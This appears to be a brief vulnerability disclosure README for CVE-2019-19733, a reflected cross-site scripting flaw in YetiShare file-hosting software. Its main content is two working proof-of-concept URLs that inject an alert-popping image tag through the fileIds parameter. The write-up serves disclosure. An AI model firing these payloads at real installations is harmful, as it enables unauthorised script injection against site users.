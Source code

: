 # CVE-2019-19733
YetiShare v3.5.2 - v4.5.3 Cross-site scripting in get_all_file_server_paths.ajax.php

# Example in v3.5.2
```
http://192.168.0.62/_get_all_file_server_paths.ajax.php?folderId=2&fileIds[]=%3Cimg%20src=x%20onerror=alert(1)%3E
```

# Example in v4.5.3
```
https://192.168.0.62/admin/ajax/get_all_file_server_paths.ajax.php?folderId=2&fileIds[]=%3Cimg%20src=x%20onerror=alert(1)%3E
```

</br></br>
<kbd>
  <img src="/yetishare-xss2.png?raw=true">
</kbd>
